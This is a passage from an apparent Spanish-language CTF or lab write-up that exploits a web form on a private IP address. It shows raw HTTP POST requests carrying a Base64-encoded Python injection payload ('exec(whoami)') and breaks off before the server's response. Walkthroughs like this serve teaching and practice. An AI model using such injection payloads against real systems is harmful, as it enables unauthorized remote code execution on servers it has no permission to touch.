 ```
POST / HTTP/1.1
Host: 192.168.5.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.5.6/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://192.168.5.6
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

petals=d2hvYW1p
```

En la respuesta del servidor y en la propia pagina web, veremos lo siguiente:

```
        <h2>

        whoami petals 
        </h2>
```

Vemos que se esta mostrando directamente el codigo decodificado, por lo que algo por dentro lo esta decodificando, pero no lo esta ejecutando, por lo que vamos a probar a intentar realizar `injecciones` de comandos con `python` algunas simples.

Despues de estar un rato probando, si probamos a poner lo siguiente de forma codificada en `Base64` veremos que funciona.

```
POST / HTTP/1.1
Host: 192.168.5.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.5.6/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://192.168.5.6
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

petals=ZXhlYyh3aG9hbWkp
```

Este valor `ZXhlYyh3aG9hbWkp` es igual a `exec(whoami)`, si probamos a enviarlo, en la pagina de la respuesta veremos lo siguiente:

